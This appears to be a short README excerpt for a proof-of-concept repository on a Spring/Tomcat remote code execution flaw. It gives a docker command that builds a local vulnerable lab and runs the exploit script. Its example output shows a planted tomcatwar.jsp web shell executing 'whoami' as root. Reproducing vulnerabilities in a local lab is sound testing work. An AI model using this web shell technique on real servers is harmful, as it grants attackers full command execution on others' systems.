 ```
docker rm -f rce; docker build -t rce:latest . && docker run -d -p 8080:8080 --name rce rce:latest && sleep 5 && python poc.py
```

output example:
```
rce
sha256:f626a2190dc0790c610afd4f12a4b2482b6a726d671fdac1432275de89c07cd6
1a048e5725f754d331de9491d0750c4c7a163472dea1fd1554edccfd00d7f6e5
deploy <Response [200]>
webshell <Response [404]>
webshell <Response [404]>
webshell <Response [404]>
webshell <Response [404]>
webshell <Response [500]>
webshell http://localhost:8080/tomcatwar.jsp?pwd=j&cmd=whoami
root
```


Sources:
  - https://twitter.com/vxunderground/status/1509170582469943303
  - https://github.com/fengguangbin/spring-rce-war
